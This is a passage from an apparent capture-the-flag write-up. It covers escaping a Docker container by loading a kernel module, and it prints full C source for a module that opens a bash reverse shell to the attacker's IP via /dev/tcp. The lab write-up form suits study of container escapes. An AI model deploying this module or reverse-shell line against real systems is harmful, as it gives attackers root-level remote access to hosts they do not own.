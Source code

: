 I’m going to build a kernel modules that provides a reverse shell to the
Monitors. Because kernel modules interact with the kernel at such a low level,
I’ll need to build it in the same environment that I want to install it.

There are many posts that show how to do this exploit (like
[this](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-
perform-docker-container-breakout-cf5c29956edd) and
[this](https://xcellerator.github.io/posts/docker_escape/)), but I found [this
one from blog.nody.cc](https://blog.nody.cc/posts/container-breakouts-part2/)
to be the simplest to follow.

The tools I need are already installed in the container, like `make` and
`gcc`. The technique will also require the linux headers for the current
kernel. They exist in `/usr/src`, which suggests they are already installed:

    
    
    root@ec8b9784f4a1:~# ls /usr/src/
    apache-ofbiz-17.12.01             linux-headers-4.15.0-142
    linux-headers-4.15.0-132          linux-headers-4.15.0-142-generic  <-- matches uname -r 
    linux-headers-4.15.0-132-generic
    root@ec8b9784f4a1:~# uname -r
    4.15.0-142-generic
    

#### Create Files

I’ll need two files. Because I hate working in a text editor with a reverse
shell, I’ll create them locally, and then upload them.

I’ll take `reverse-shell.c` directly from the blog post, changing the IP of
the reverse shell to my own:

    
    
    #include <linux/kmod.h>
    #include <linux/module.h>
    MODULE_LICENSE("GPL");
    MODULE_AUTHOR("AttackDefense");
    MODULE_DESCRIPTION("LKM reverse shell module");
    MODULE_VERSION("1.0");
    char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.7/443 0>&1", NULL};
    static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
    static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    }
    static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
    }
    module_init(reverse_shell_init);
    module_exit(reverse_shell_exit);
    

For the `Makefile`, I had issues with the stuff in `$()` running, but it was
pretty obvious what should be there, so I just changed it to include hardcoded
values:
